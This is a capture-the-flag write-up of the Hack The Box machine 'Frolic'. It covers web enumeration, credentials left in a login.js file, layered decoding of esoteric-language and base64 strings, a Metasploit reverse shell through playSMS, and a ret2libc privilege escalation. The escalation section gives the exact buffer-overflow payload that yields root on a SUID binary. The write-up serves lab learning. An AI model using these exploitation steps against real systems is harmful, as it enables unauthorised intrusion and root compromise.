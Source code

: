 ```yaml
---
title: 'HTB: Frolic'
date: '2025-04-26'
excerpt: 'Frolic is not overly challenging, however a great deal of enumeration is required due to the amount of services and content running on the machine. The privilege escalation features an easy difficulty return-oriented programming (ROP) exploitation challenge, and is a great learning experience for beginners.'
readingTime: 4
tags: ['HTB', 'Writeup', 'HTB', 'Writeup', 'Medium', 'Linux', 'Pwn']
author: 'pir4cy'
coverImage: '/images/htb/covers/frolic-cover.png'
---
```


# FROLIC
## Info

IP Address: 10.10.10.111  
OS: Linux  
Difficulty: Medium  

## System Enumeration

### NMAP
![Nmap](/images/htb/machines/Frolic/frolicnmap.png "NMAP")

We see two different ports that we can access, `1880` and `9999`

### Port 1880: Node-RED service
![Coloured Service](/images/htb/machines/Frolic/frolicRED.png "RED Service")

### Port 9999: nginx service
![nginx](/images/htb/machines/Frolic/frolicnginx.png "NGINX")

## Enumerating Port 9999 with Dirbuster

I used the dirb wordlists `big.txt`
![dirbuster](/images/htb/machines/Frolic/frolicdirbuster.png "Dirbuster")

Looking up all areas with response code 200, which we can access without restrictions

### /admin/

#### Source Code 

##### /login.js/

username: admin
password: superduperlooperpassword_lol

```
..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... ..... ..... ..... ..... ..!.? ..... ..... .!?!! .?... ..... ..?.?
!.?.. ..... ..... ....! ..... ..... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !...! ..... ..... .!.!! !!!!! !!!!! !!!.? .....
..... ..... ..!?! !.?!! !!!!! !!!!! !!!!? .?!.? !!!!! !!!!! !!!!! .?... ..... ..... ....! ?!!.? ..... ..... ..... .?.?! .?...
..... ..... ...!. !!!!! !!.?. ..... .!?!! .?... ...?. ?!.?. ..... ..!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!!!. ?.... .....
..... ...!? !!.?! !!!!! !!!!! !!!!! ?.?!. ?!!!! !!!!! !!.?. ..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... !....
..... ..!.! !!!!! !.!!! !!... ..... ..... ....! .?... ..... ..... ....! ?!!.? !!!!! !!!!! !!!!! !?.?! .?!!! !!!!! !!!!! !!!!!
!!!!! .?... ....! ?!!.? ..... .?.?! .?... ..... ....! .?... ..... ..... ..!?! !.?.. ..... ..... ..?.? !.?.. !.?.. ..... ..!?!
!.?.. ..... .?.?! .?... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !!!!! !!... ..... ...!. ?.... ..... !?!!. ?!!!! !!!!? .?!.?
!!!!! !!!!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!.! !!!!! !!!!! !!!!! !.... ..... ..... ..... !.!.? ..... ..... .!?!! .?!!!
!!!!! !!?.? !.?!! !.?.. ..... ....! ?!!.? ..... ..... ?.?!. ?.... ..... ..... ..!.. ..... ..... .!.?. ..... ...!? !!.?! !!!!!
!!?.? !.?!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!.?. ..... ...!? !!.?. ..... ..?.? !.?.. !.!!! !!!!! !!!!! !!!!! !.?..
..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... ..... ..... .!?!! .?!!! !!!!! !!!!! !!!?. ?!.?! !!!!! !!!!! !!.!! !!!!! .....
..!.! !!!!! !.?. 
```

A quick lookup shows that this is the Ook! language.
Using an online decoder, we achieve 
```
Nothing here check /asdiSIAJJ0QWE9JAS
```
Opening up `http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS` , we get:
```
UEsDBBQACQAIAMOJN00j/lsUsAAAAGkCAAAJABwAaW5kZXgucGhwVVQJAAOFfKdbhXynW3V4CwAB
BAAAAAAEAAAAAF5E5hBKn3OyaIopmhuVUPBuC6m/U3PkAkp3GhHcjuWgNOL22Y9r7nrQEopVyJbs
K1i6f+BQyOES4baHpOrQu+J4XxPATolb/Y2EU6rqOPKD8uIPkUoyU8cqgwNE0I19kzhkVA5RAmve EMrX4+T7al+fi/kY6ZTAJ3
h/Y5DCFt2PdL6yNzVRrAuaigMOlRBrAyw0tdliKb40RrXpBgn/uoTj
lurp78cmcTJviFfUnOM5UEsHCCP+WxSwAAAAaQIAAFBLAQIeAxQACQAIAMOJN00j/lsUsAAAAGkC
AAAJABgAAAAAAAEAAACkgQAAAABpbmRleC5waHBVVAUAA4V8p1t1eAsAAQQAAAAABAAAAABQSwUG AAAAAAEAAQBPAAAAAwEAAAAA 
```

This looks like base64 encoding. Using `https://www.freeformatter.com/base64-encoder.html` and downloading the resulting zip, we see that its locked. Using fcrackzip to crack zip passwords, we get

![Password ZIP](/images/htb/machines/Frolic/froliczip.png "Locked Zip")
![Using FCrackZip](/images/htb/machines/Frolic/frolicfcrack.png "FCrackZip")

Opening up `index.php`, we get
```
4b7973724b7973674b7973724b7973675779302b4b7973674b7973724b7973674b79737250463067506973724b7973674b7934744c5330674c5330754b797367
4b7973724b7973674c6a77720d0a4b7973675779302b4b7973674b7a78645069734b4b797375504373674b7974624c5434674c53307450463067506930744c53
30674c5330754c5330674c5330744c5330674c5330744c5330674c6a77724b7973670d0a4b317374506973674b79737250463067506973724b793467504373724b3173674c543474
4c53304b5046302b4c5330674c6a77724b7973675779302b4b7973674b7a7864506973674c6930740d0a4c53467504373724b3173674c5434744c5330675046
302b4c5330674c5330744c53467504373724b7973675779302b4b7973674b7973385854344b4b7973754c6a776743673d3d0d0a
```
which seems to be hex code, translating hex to ascii
```
KysrKysgKysrKysgWy0+KysgKysrKysgKysrPF0gPisrKysgKy4tLS0gLS0uKysgKysrKysgLjwr
KysgWy0+KysgKzxdPisKKysuPCsgKytbLT4gLS0tPF0gPi0tLS0gLS0uLS0gLS0tLS0gLjwrKysg
K1stPisgKysrPF0gPisrKy4gPCsrK1sgLT4tLS0KPF0+LS0gLjwrKysgWy0+KysgKzxdPisgLi0t
LS4gPCsrK1sgLT4tLS0gPF0+LS0gLS0tLS4gPCsrKysgWy0+KysgKys8XT4KKysuLjwgCg==
```
which is easily identified as base64, decoding this
```
+++++ +++++ [->++ +++++ +++<] >++++ +.--- --.++ +++++ .<+++ [->++ +<]>+
++.<+ ++[-> ---<] >---- --.-- ----- .<+++ +[->+ +++<] >+++. <+++[ ->---
<]>-- .<+++ [->++ +<]>+ .---. <+++[ ->--- <]>-- ----. <++++ [->++ ++<]>
++..< 
```
A quick google search shows that this is brainfuck, decoding which gets us a string `idkwhatispass`

This string did not work as password on the `RED` service so I tried enumerating again with a different wordlist, which gave me a new directory

### /playsms/
![PlaySMS](/images/htb/machines/Frolic/frolicplaysms.png "PlaySMS")
Using the username `admin` and password `idkwhatispass`, we logged in

![Admin Panel](/images/htb/machines/Frolic/frolicplaysmslogin.png "LoggedIn Playsms")

Using metasploit, I was able to gain a reverse shell through playsms service

![MSFConsole](/images/htb/machines/Frolic/frolicplaysmsexploit.png "Metasploit")
![Rev Shell Obtained](/images/htb/machines/Frolic/frolicrshell.png "Reverse Shell")

## User Exposed
![User Exposed](/images/htb/machines/Frolic/frolicuser.png "User")

Finally got user

## Privilege Escalation

Following simple steps to check for escalation, I first check for SUID binaries in the system which can be exploited to escalate privileges:

![./ROP Found](/images/htb/machines/Frolic/frolicsuid.png "SUID rop found")

Finding `rop` means we can exploit it using ret2lib attack and gain root. Downloaded the binary to my local machine(by using the `download <file>` command in meterpreter) to debug it using gdb-peda.

### Using gdb-peda
Step 1: Creating a pattern of 100 characters
      `pattern_create 100`
      `AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL`
Step 2: Finding buffer limit using pattern offset.

![pattern_offset](/images/htb/machines/Frolic/frolicpatternfound.png "Finding offset")

### Using libc-search

Step 1: Use `ldd rop` to find what library its using  
Step 2: Add gcc library to $PATH, using `export PATH = /usr/lib/gcc/i686-linux-gnu/:/sbin:/bin:/usr/sbin:/usr/bin`  
Step 3: Upload libc-search.c to server (https://0xdeadbeef.info/code/libc-search.c)  
Step 4: `gcc libc-search.c -o libc-search -lc -ldl`  
Step 5: Search for system, exit using -s   
Step 6: Search for /bin/sh using -p (set libbase using -b)  

![LIBC-Search](/images/htb/machines/Frolic/froliclibc.png "Libc Enumeration")

### Creating Payload
The addresses are converted to little endian.

![Address List](/images/htb/machines/Frolic/frolicadd.png "Address List")

Now, we simply create a python one-line payload to pass as our argument to the `rop` binary.
```
python -c 'print "A"*52 + "\xa0\x3d\xe5\xb7" + "\xd0\x79\xe4\xb7"+"\x0b\x4a\xf7\xb7"'
```
### Root Obtained

Running
```
./rop $(python -c 'print "A"*52 + "\xa0\x3d\xe5\xb7" + "\xd0\x79\xe4\xb7"+"\x0b\x4a\xf7\xb7"')
```
We obtain root

![Pwnage](/images/htb/machines/Frolic/frolicroot.png "Rooted")

